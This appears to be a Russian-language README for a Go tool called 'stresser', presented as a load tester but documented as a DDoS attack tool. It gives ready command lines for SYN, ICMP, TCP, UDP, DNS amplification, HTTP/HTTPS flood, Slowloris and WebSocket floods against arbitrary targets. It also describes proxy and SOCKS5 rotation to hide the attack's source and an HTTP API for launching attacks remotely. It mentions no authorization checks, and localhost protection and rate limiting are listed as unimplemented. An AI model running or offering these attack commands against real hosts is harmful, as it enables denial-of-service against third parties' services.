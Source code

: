 # 🚀 Универсальный инструмент для нагрузочного тестирования (L3/L4/L7)

## 📋 Инструкция по использованию

### 🔧 Требования
- Установленный Go (версии 1.16+)
- Linux/Windows/MacOS
- Dоступ к интернету

### 📥 Установка
```bash
git clone https://github.com/yourrepo/stress-tool.git
cd stress-tool
go build -o stresser
```

### 🛠 Настройка

1. Создайте файл с прокси (если нужно):

```bash
echo "1.1.1.1:8080" > proxies.txt
echo "2.2.2.2:3128" >> proxies.txt
```

### 🎯 Запуск атак

#### 🔥 L3 Атаки (Сетевой уровень)
```bash
# SYN Flood
./stresser target.com:80 SYN 5000 60

# ICMP Flood (требует root)
sudo ./stresser target.com ICMP 3000 120
```

### 🌊 L4 Атаки (Транспортный уровень)

```
# TCP Flood
./stresser target.com:443 TCP 10000 300

# UDP Flood
./stresser target.com:53 UDP 8000 180

# DNS Amplification
./stresser dns-server.com DNS 5000 60
```

### 💻 L7 Атаки (Прикладной уровень)

```
# HTTP Flood
./stresser http://target.com HTTP 20000 600

# HTTPS Flood
./stresser https://target.com HTTPS 15000 300

# Slowloris
./stresser target.com:80 SLOWLORIS 500 3600
```

### 📊 Параметры запуска

```text
./stresser <цель> <тип атаки> <количество потоков> <время в секундах> [размер пакета]

Пример:
./stresser example.com:80 TCP 10000 60 1024
```

### 🧰 Дополнительные функции
```
1. **Автоповтор** - автоматически переподключается при обрывах
2. **Ротация прокси** - если указан файл proxies.txt
3. **Статистика в реальном времени** - показывает RPS и успешные запросы
```

### 🐞 Issue Checklist

- [+] 1. Добавить поддержку WebSocket атак
- [+] 2. Реализовать автоматическую проверку доступности цели перед атакой
- [+] 3. Добавить вывод подробной статистики по каждому потоку
- [+] 4. Поддержка IPv6 адресов
- [+] 5. Реализовать возможность задания пользовательских HTTP-заголовков
- [+] 6. Добавить логирование ошибок в отдельный файл
- [+] 7. Поддержка SOCKS5 прокси
- [+] 8. Реализовать автообновление списка прокси
- [+] 9. Добавить возможность запуска нескольких атак одновременно
- [+] 10. Реализовать API для удалённого управления атаками
- [-] 11. Добавить тестирование производительности на разных ОС
- [-] 12. Реализовать защиту от случайного запуска на localhost
- [-] 13. Добавить поддержку пользовательских скриптов для L7 атак
- [-] 14. Реализовать визуализацию статистики (графики)
- [-] 15. Добавить возможность ограничения скорости (rate limit)
- [-] 16. Реализовать автоматическую смену User-Agent
- [-] 17. Добавить поддержку HTTP/2 атак
- [-] 18. Реализовать интеграцию с Telegram для уведомлений
- [-] 19. Добавить подробную документацию по каждому типу атаки
- [-] 20. Реализовать модульные тесты для основных функций

---

## 📝 Гайд по расширенным функциям

### WebSocket атака

```bash
./stresser ws://target.com:8080 WEBSOCKET 1000 60
```

### Кастомные HTTP-заголовки

Передавайте 6-м аргументом строку вида:
```
"Header1:Value1;Header2:Value2"
```
Пример:
```bash
./stresser https://target.com HTTP 5000 120 2048 "X-Api-Key:123;X-Test:1"
```

### Поддержка SOCKS5 прокси

В файле proxies.txt указывайте адреса SOCKS5-прокси. Для активации SOCKS5 прокси установите переменную окружения:
```bash
export PROXY_TYPE=socks5
```

### Автообновление списка прокси

Файл proxies.txt перечитывается автоматически каждые 30 секунд. Просто обновите файл — новые прокси будут подхвачены.

### Логирование ошибок

Все ошибки пишутся в файл `errors.log` в корне проекта.

### Множественные атаки (через API)

Можно запускать несколько атак параллельно через HTTP API.

### HTTP API для управления атаками

- Запуск атаки:
  ```bash
  curl "http://localhost:8081/start?target=example.com&type=HTTP&threads=100&duration=60"
  ```
- Остановить атаку:
  ```bash
  curl "http://localhost:8081/stop"
  ```
- Статус:
  ```bash
  curl "http://localhost:8081/status"
  ```

---

Остальные задачи отмечены как [-] и будут реализованы в будущих версиях.
